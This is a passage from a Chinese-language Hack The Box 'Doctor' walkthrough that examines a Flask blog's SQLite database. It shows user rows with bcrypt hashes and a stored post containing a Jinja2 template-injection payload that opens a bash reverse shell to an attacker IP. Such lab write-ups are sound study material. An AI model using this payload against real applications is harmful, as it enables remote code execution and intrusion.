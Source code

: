 

## 2.关于数据库用户

```C
cd /home/web/blog/flaskblog
    
//想办法把site.db 传输到本机
    
    
"sqlite3 site.db"
"select * from user;"
```

![Screenshot_20240418_224821](./图/Screenshot_20240418_224821.png)



`site.db`重置后，我从工作站点目录中提取了一份副本。在这个数据库中，有两个用户：

```sqlite
root@kali# sqlite3 site.db 
SQLite version 3.33.0 2020-08-14 13:23:32
Enter ".help" for usage hints.
sqlite> select * from user;
1|admin|admin@doctor.htb|default.gif|$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S
2|shaun|s@s.com|default.gif|$2b$12$wW0SocwtbEImnxgWoHJPMOzbTKs1qYCeE5Q0KnBtCXqD7NzuDne4y
```



还有与用户 ID 2 相关的漏洞利用帖子：

```sqlite
sqlite> select * from post;
1|Doctor blog|2020-09-18 20:48:37.55555|A free blog to share medical knowledge. Be kind!|1
2|{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'").read()}}{%endif%}{%endfor%}|2020-09-28 13:01:21.252038|dsdsdsa|2

```



我从 中获取了一份“干净”数据库的副本`/opt/clean`，它只显示了一个用户：

```sqlite
sqlite> select * from user;
1|admin|admin@doctor.htb|default.gif|$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S

```



而且只有一篇文章：

```sqlite
sqlite> select * from post;
1|Doctor blog|2020-09-18 20:48:37.55555|A free blog to share medical knowledge. Be kind!|1
```
